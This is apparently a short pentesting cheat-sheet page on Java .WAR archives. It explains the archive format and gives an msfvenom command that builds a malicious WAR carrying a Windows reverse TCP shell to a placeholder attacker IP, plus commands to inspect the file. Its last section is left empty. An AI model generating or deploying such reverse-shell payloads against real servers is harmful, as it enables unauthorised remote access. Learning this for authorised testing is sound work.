 ```yaml
---
description: Web Application Resource
icon: java
---
```


# .WAR

A Web Application Resource is a single file container that holds all the potential files necessary for a Java-based web application. It can have Java Archives (.jar), Java Server Pages (.jsp), Java Servlets, Java classes, webpages, css, etc.

The `/WEB-INF` directory inside the archive is a special one, with a file named `web.xml` which defines the structure of the application.

**Create Malicious WAR files:**

Windows: msfvenom

```

msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=4444 -f war > filename.war
```

**WAR files are basically ZIP files:**

```
head -c 16 filename.war | xxd
```



**Finding  JSP files:**

```
#Install
sudo apt install default-jdk

#Use jar to list content of the war file
jar tf revshell.war

#Curl .jsp file

```
